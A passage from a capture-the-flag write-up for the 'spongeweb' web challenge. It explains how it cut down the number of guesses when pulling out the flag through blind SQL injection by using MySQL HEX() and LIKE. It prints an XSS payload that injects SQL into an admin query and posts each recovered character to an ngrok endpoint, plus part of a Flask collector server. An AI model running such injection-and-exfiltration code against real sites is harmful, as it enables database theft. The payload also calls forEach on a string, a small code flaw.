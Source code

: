 If we guess the flag character by character, we have to find the correct one among ~80 printable chars, this gives us around 40 requests for each char, on average. Thankfully mySQL offers a `HEX()` method that allows us to convert a value to a hex string. Each char is a byte, and each byte gets converted to two hex chars.

If we try to guess the next char in the hexadecimal sequence we reduce the alphabet down from ~80 to 16, which on average is 8 requests. We have twice as many characters to guess but the odds are still in our favour, bringing the average number of requests for each flag character down from ~40 to ~16.

## Final solution

We tried to guess each possible character by making a post, but it was too slow. We figured 5 seconds weren't enough to guess the whole flag from javascript, so we ended up with this code that lets the javascript find what's the next character and reports it to the server, that makes a new payload and so on. The Flask server is exposed to the internet through Ngrok.

XSS Payload:

```js
const h = '0123456789abcdef';
var flag = '7372646e6c656e7b'; // hex(srdnlen{)

h.forEach(c => {
    let guess = flag + c;
    fetch(`http://spongeweb.challs.srdnlen.it/admin?query=users WHERE hex(password) LIKE '` + guess + `%'`)
        .then(p => p.text())
        .then(t => {
            let ans = t[t.indexOf('</h2>') - 1];
            if (ans == '1') {
                fetch('https://1234-abcd.ngrok-free.app?' + encodeURIComponent(flag + c), {method: 'POST'});
            }
        });
})
```

Python webserver:

```python
from flask import *
from threading import *
import urllib.parse
from time import sleep, clock_gettime, CLOCK_MONOTONIC
import requests

app = Flask(__name__)
sleep(2)
TIMEOUT = 20
ngrok_url = 'https://05e5-2001-b07-6475-a0a-14cf-9dad-69d9-b20c.ngrok-free.app'
# ngrok_url = 'https://webhook.site/01be0cf0-1c5d-4dc6-bbe8-bd901e7ae9cd'

flag = '7372646e6c656e7b' # hex('srdnlen{')
has_responded = False

@app.route("/", methods=["GET", "POST", "OPTIONS"])
def hello_world():
    global flag
    global has_responded
    has_responded = True
    res = urllib.parse.unquote(request.url.split('?')[-1])
    flag = res
    print(f'received -> {res}')
    return Response(status=200)

```